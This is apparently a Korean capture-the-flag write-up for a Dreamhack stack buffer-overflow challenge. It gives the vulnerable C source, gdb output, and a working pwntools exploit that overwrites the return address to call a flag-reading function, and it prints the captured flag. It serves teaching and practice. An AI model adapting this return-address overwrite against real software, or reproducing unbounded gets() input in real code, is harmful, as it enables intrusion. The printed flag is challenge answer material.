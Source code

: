 ```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {	// flag 파일을 읽어주는 함수
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];	// buf[128]

    initialize();
    
    gets(buf);	// 크기에 제한없이 buf에 입력을 받음

    return 0;
}
```

* `gets()` 함수로 크기에 제한 없이 입력을 받고 있기 때문에 버퍼 오버플로우 공격이 가능합니다.

* `read_flag()` 함수를 실행시키면 `flag` 파일을 읽을 수 있기 때문에, `RET` 에 `read_flag()` 함수의 주소가 들어가게 하면 될 거 같습니다.

<br>

gdb로 문제 파일을 봐보면

```bash
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]		// eax = buf(ebp-128)
   0x080485da <+14>:    push   eax		        // push buf
   0x080485db <+15>:    call   0x80483d0 <gets@plt>	// gets(buf)
   0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave  
   0x080485e9 <+29>:    ret    
End of assembler dump.
```

<br>

`read_flag()` 함수의 주소를 찾아보면

```bash
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x08048398  _init
0x080483d0  gets@plt
0x080483e0  signal@plt
0x080483f0  alarm@plt
0x08048400  puts@plt
0x08048410  system@plt
0x08048420  exit@plt
0x08048430  __libc_start_main@plt
0x08048440  setvbuf@plt
0x08048450  __gmon_start__@plt
0x08048460  _start
0x08048490  __x86.get_pc_thunk.bx
0x080484a0  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048530  frame_dummy
0x0804855b  alarm_handler
0x08048572  initialize
0x080485b9  read_flag
0x080485cc  main
0x080485f0  __libc_csu_init
0x08048650  __libc_csu_fini
0x08048654  _fini
read_flag() → 0x080485b9
```
 
<br>

메모리 구조를 그려보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/fb2725da-0094-4ac1-9a8b-dc9f833de16c/image.png">

* buf~EBP ← NOP[132]
* RET ← read_flag() 함수의 주소

* 를 넣어주면  본 함수 종료 후 read_flag() 함수로 점프해서 flag값이 출력될 거 같습니다.

<br>

`pwntools` 로 익스플로잇 코드를 짜 보면

```python
from pwn import *

p = remote("host3.dreamhack.games", 9955)	# 원격 서버에 연결

read_flag = p32(0x080485b9)	# read_flag 함수의 주소를 리틀 엔디안 방식으로 패킹

payload = b"\x90"*132	# payload = NOP[132]
payload += read_flag	# payload = NOP[132] + read_flag

p.sendline(payload)	# payload 입력
p.interactive()	# 사용자에게 입출력을 돌려줌
```

<br>

익스플로잇 코드를 실행시키면

```python
⚡ root  ~/dreamhack  python exploit002.py
[+] Opening connection to host3.dreamhack.games on port 9955: Done
[*] Switching to interactive mode
$ 
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive
$
```
플래그가 출력되었습니다.
